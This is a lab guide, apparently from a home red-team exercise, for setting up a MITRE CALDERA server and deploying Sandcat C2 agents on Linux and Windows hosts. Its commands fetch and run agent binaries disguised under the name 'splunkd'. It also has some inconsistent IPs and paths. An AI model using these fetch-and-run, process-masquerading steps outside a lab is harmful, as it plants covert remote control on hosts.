







# CALDERA Operator VM – Detailed Guide (Ubuntu 24.04 LTS)

This guide covers the complete process of setting up a CALDERA server, solving all encountered problems, installing agents (Linux + Windows), connecting agents, and testing and troubleshooting.

---

## 1. VirtualBox VM Preparation (CALDERA-SRV)

### 1.1. Creating New VM

```
Name: CALDERA-SRV
OS: Ubuntu (64-bit)
RAM: 4096 MB
CPU: 2 cores
Disk: 40 GB (VDI, dynamically allocated)
```


### 1.2. Network Settings

```
Adapter 1: Internal Network → TechNovaNet
Adapter type: Intel PRO/1000 MT Desktop (82540EM)
Promiscuous mode: Aloow All
Virtual cable connected: ✔
```


*Figure 40: Internal Network adapter configuration for CALDERA*

**Purpose:**
Enables CALDERA server communication with all other VMs (DC, Workstation, Linux Server).

---

## 2. Ubuntu 24.04 Server Installation

### 2.1. Standard Installation

Installation options:
- Standard installation options
- Install **OpenSSH Server**
- User: `ubcaldera`
- Password: Can be weak for realistic red team conditions

### 2.2. First Boot

**Expected:** VM boots to normal login prompt → system ready

**If encountering black screen:** See Section 7 (Troubleshooting - Emergency Shell)

---

## 3. Static IP Address Configuration (Netplan)

### 3.1. Editing Configuration

```bash
sudo nano /etc/netplan/01-netcfg.yaml
```

### 3.2. Final Configuration

```yaml
network:
  version: 2
  ethernets:
    enp0s3:
      dhcp4: false
      addresses:
        - 10.10.0.60/24
      routes:
        - to: default
          via: 10.10.0.1
      nameservers:
        addresses:
          - 10.10.0.10
          - 8.8.8.8

```


*Figure 41: Static IP configuration for CALDERA server*

### 3.3. Applying Configuration

```bash
sudo netplan apply
ip a
```

**Verify:** IP is `10.10.0.53`

---

## 4. Resolving DNS Issues (SERVFAIL / Domain Not Found)

### Symptoms:
- `ping technova.local` → Temporary failure
- `nslookup technova.local` → SERVFAIL

### 4.1. Editing systemd-resolved Settings

```bash
sudo nano /etc/systemd/resolved.conf
```

**Add or edit:**

```ini
[Resolve]
DNS=10.10.0.10
Domains=technova.local
DNSSEC=no
DNSOverTLS=no
FallbackDNS=
MulticastDNS=no
Cache=no-negative
```


*Figure 42: systemd-resolved configuration for domain resolution*

### 4.2. Restart Resolver

```bash
sudo systemctl restart systemd-resolved
sudo resolvectl flush-caches
resolvectl status
```

*Figure 42: systemd-resolved configuration for domain resolution*

### 4.3. Test

```bash
ping technova.local
nslookup technova.local
```


*Figure 42: Ping test for technova.local*

**Result:** DNS works correctly after this configuration

---

## 5. CALDERA Installation

### 5.1. Downloading CALDERA Repository

```bash
sudo apt update
sudo apt install git -y
cd ~
git clone https://github.com/mitre/caldera.git --recursive
cd caldera
```

### 5.2. Creating "operator" User

**Error encountered:**
```
chown: invalid user operator:operator
```

**Cause:** User didn't exist

**Solution:**

```bash
sudo adduser operator
sudo usermod -aG sudo operator
```

### 5.3. Assigning CALDERA Folder to User

```bash
sudo chown -R operator:operator /home/ubcaldera/caldera
```

### 5.4. Setting Up Python Virtual Environment

CALDERA requires a Python virtual environment with specific dependencies.

**Navigate to CALDERA directory:**

```bash
cd /opt/caldera
```

**Install Python venv package (if not present):**

```bash
sudo apt-get update
sudo apt-get install -y python3-venv python3-pip
```

**Create virtual environment:**

```bash
python3 -m venv venv
```

**Activate virtual environment:**

```bash
source venv/bin/activate
```

**Upgrade pip:**

```bash
pip install --upgrade pip
```

**Install all required packages:**

```bash
pip install -r requirements.txt
```

**Note:** You must activate the virtual environment (`source venv/bin/activate`) every time before starting CALDERA server.

---

## 6. Starting CALDERA Server

**Ensure virtual environment is activated:**

```bash
cd /opt/caldera
source venv/bin/activate
python3 server.py --insecure
```

**Server runs on:**
```
http://10.10.0.53:8888
```


*Figure 44: CALDERA server running in terminal*

**Default login:**
```
Username: red
Password: admin
```


*Figure 45: CALDERA web interface login screen*

---

## 7. Emergency Shell – Black Screen After Installation (Resolved)

### Problem:

CALDERA VM crashed into emergency mode due to error:
```
ALERT! /dev/disk/... does not exist
```

### 7.1. Entering Root Shell

- Press `Ctrl+D` or enter root password

### 7.2. Fixing fstab

Error was in an entry for something that didn't exist.

```bash
nano /etc/fstab
```

**Action:** Delete incorrect line

### 7.3. Reboot

```bash
reboot
```

**Result:** VM works normally again

---

## 8. Installing Sandcat Agents

CALDERA uses "Sandcat" (Go-based) agent.

---

### 8.1. Linux Agent (Ubuntu Linux Server)

#### 8.1.1. Downloading Agent

**Method 1 (wget):**

```bash
cd ~
wget http://10.10.0.53:8888/file/sandcat.go -O sandcat.go
```

**Method 2 (curl - if wget doesn't work):**

```bash
curl -s -X POST -H "platform:linux" http://10.10.0.53:8888/file/download > splunkd
```


#### 8.1.2. Setting Execute Permissions

```bash
chmod +x splunkd
```

#### 8.1.3. Running Agent

```bash
./splunkd -server http://10.10.0.53:8888 -group red -v
```



*Figure 47: Sandcat agent running on Linux server*

**Result:**  Agent appears in CALDERA → Agents

---

### 8.2. Windows Agent (Windows 10 Workstation)

#### 8.2.1. Download from PowerShell

**Run as Administrator:**

```powershell
Invoke-WebRequest -Uri "http://10.10.0.53:8888/file/sandcat.exe" -OutFile "C:\Users\Public\splunkd.exe"
```


#### 8.2.2. Running Agent

```powershell
C:\Users\Public\splunkd.exe -server http://10.10.0.53:8888 -group red -v
```


**Result:**  Windows agent appears in Agents list

---

## 9. Resolving "Unsupported SSH Version" Issue

### Problem:

CALDERA attempted SSH payload → but Linux server advertised modern SSH banner that CALDERA doesn't support.

### Solution:

**Ignore** — this is normal.

Sandcat works over HTTP, not SSH.


---

## 11. Troubleshooting (All Encountered Problems)

### 11.1. DNS SERVFAIL / Temporary Failure

**Symptoms:**
- Cannot resolve `technova.local`
- `nslookup` returns SERVFAIL

**Solution:**
Fixed by configuring `resolved.conf` and netplan DNS field

**Reference:** Section 4

---

### 11.2. Emergency Shell / Black Screen

**Symptoms:**
- VM boots to emergency mode
- Error: `/dev/disk/... does not exist`

**Solution:**
✔ Fixed `fstab`, removed incorrect entry, rebooted

**Reference:** Section 7

---

### 11.3. "invalid user operator:operator"

**Symptoms:**
- `chown` command fails
- User doesn't exist

**Solution:**
✔ Created `operator` user before running `chown`

**Reference:** Section 5.2

---

### 11.4. Agent Download Doesn't Work

**Symptoms:**
- `wget` fails to download agent

**Solution:**
✔ Use POST variant:
```bash
curl -s -X POST -H "platform:linux" http://10.10.0.53:8888/file/download > splunkd
```

**Reference:** Section 8.1.1

---

### 11.5. "Unsupported SSH Version"

**Symptoms:**
- Error message about SSH version

**Solution:**
✔ Normal — CALDERA doesn't use SSH for agent communication

**Reference:** Section 9

---

### 11.6. Windows Can't Download EXE

**Symptoms:**
- PowerShell download fails
- Connection refused

**Solution:**
✔ Enable HTTP on pfSense (LAN → allow all)

**Verification:**
```powershell
Test-NetConnection -ComputerName 10.10.0.53 -Port 8888
```

---

## 12. Snapshot Creation

### Creating CALDERA Server Snapshot:

```
Name: CALDERA-SRV – operational baseline
Description: IP 10.10.0.53, CALDERA installed, agents tested
```

---

## 15. Current Infrastructure State

Your complete network now includes:

```
pfSense (10.10.0.1)
   |
   +--- Windows Server 2019 DC (technova.local) – 10.10.0.10
   |
   +--- Windows 10/11 Workstation (WIN-CLIENT) – 10.10.0.x
   |
   +--- Ubuntu Server (ubuntu-srv) – 10.10.0.51
   |
   +--- CALDERA Server (CALDERA-SRV) – 10.10.0.53
```

